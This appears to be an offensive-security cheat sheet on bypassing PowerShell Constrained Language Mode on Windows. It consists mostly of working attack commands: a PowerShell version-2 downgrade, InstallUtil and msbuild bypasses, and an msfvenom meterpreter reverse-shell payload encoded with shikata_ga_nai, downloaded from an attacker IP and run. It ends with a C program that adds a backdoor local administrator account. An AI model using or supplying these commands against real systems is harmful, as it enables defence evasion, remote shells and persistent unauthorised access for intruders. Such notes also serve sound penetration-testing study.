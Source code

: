 ### PS CLM
+ powershell Constrained Language Mode

```bash
# check, values could be: FullLanguage or ConstrainedLanguage
$ExecutionContext.SessionState.LanguageMode

# bypass1 Easy bypass
Powershell -version 2

# bypass 2, PSByPassCLM.
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
## reverse shell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe

# bypass 3, msbuild bypass
## https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml
msfvenom --platform windows -p windows/meterpreter/reverse_tcp lhost=10.10.14.90 lport=443 -e x86/shikata_ga_nai -i 20 -f csharp -o meterpreter_443.cs -v shellcode 

## copy msf payload to shellcode.xml

## upload to target
iwr -uri http://10.10.14.90/shellcode.xml -outfile shell.xml
copy shell.xml  c:\windows\system32\spool\drivers\color\

c:\windows\microsoft.net\framework\v4.0.30319\msbuild.exe shell.xml

```

## Tolearn- AntiVirus and Detectors


## C payload

### Compile
windows gcc compile; [mingw-w64](https://mingw-w64.org/doku.php)

### add user

```C
#include <stdlib.h>

int main()
{
int i;
i = system("net user evil Ev!lpass /add");
i = system("net localgroup administrators evil /add");
return 0;
}
```

compile on kali

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe

```
